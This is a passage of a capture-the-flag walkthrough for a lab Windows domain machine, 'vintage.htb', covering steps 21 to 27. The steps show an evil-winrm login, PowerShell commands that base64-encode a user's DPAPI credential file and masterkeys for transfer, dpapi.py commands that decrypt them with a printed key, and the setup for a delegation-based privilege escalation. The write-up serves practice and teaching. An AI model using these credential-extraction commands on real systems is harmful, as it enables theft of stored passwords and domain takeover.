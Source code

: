 <img width="912" height="205" alt="image" src="https://github.com/user-attachments/assets/4137eae6-7959-4228-887c-dab9b97d84b4" />

21. The user C.Neri can PSRemote into the machine, so we get shell access via evil-winrm (after making sure to add the realm to /etc/krb5.conf) and retrieve the user flag!

`evil-winrm -i dc01.vintage.htb -r vintage.htb`

<img width="569" height="149" alt="image" src="https://github.com/user-attachments/assets/4df27086-92a9-4347-b752-66390b8c5026" />

22. Now that we're in the machine, we do some basic enumeration and pillaging. We come across a hidden credentials file that's encrypted with DPAPI.

<img width="679" height="163" alt="image" src="https://github.com/user-attachments/assets/495bbddf-5a86-4b22-b0e4-7c1b0907cd32" />

23. Evil-winrm doesn't allow us to just download the file for some reason, so we encode the file contents with base64 and transfer it over to our local machine.

`[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6"))`

<img width="912" height="134" alt="image" src="https://github.com/user-attachments/assets/ae94b9d0-f2ab-4737-aa80-553da7280f02" />

24. We do the same for the DPAPI keys

`[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\C.Neri\AppData\Roaming\Microsoft\protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847"))`

<img width="914" height="202" alt="image" src="https://github.com/user-attachments/assets/3bd5eda6-ea55-42cf-b7e0-c495bebc4a81" />

`[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\C.Neri\AppData\Roaming\Microsoft\protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b"))`

<img width="913" height="206" alt="image" src="https://github.com/user-attachments/assets/113b47d8-7566-4989-ab20-a7c210e35fee" />

25. After decoding the base64 files, we proceed to decrypt the DPAPI files. We will first decrypt the 2 masterkeys and then try both to see which one decrypts the credential file. So first, using dpapi.py, we decode the 2 DPAPI masterkeys

`dpapi.py masterkey -file dpapi1.key -sid $(cat c.neri.sid) -password $(cat ../user/svc_sql.pass)`

`dpapi.py masterkey -file dpapi2.key -sid $(cat c.neri.sid) -password $(cat ../user/svc_sql.pass)`

<img width="912" height="720" alt="image" src="https://github.com/user-attachments/assets/f3e7ba12-f705-4a90-ae80-be6dc3ac4c25" />

26. Now with the 2 masterkeys, we try decrypting the credential file using dpapi.py again

`dpapi.py credential -file credentials.txt -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a`

<img width="912" height="313" alt="image" src="https://github.com/user-attachments/assets/86f184de-577c-4c71-9462-4739b444acd7" />

27. After checking Bloodhound, the C.Neri_Adm user is part of the DelegatedAdmins group which has AllowedToAct rights on DC01. This means that we can conduct a Resource-Based Constrained Delegation (RBCD) attack to impersonate a high privilege user. To abuse RBCD, we need an account that has a SPN. Since the C.Neri_Adm user doesn't have one, we can add a SPN to it or we can use another user we control that already has a SPN. We elect to use the FS01$ account to impersonate DC01. 
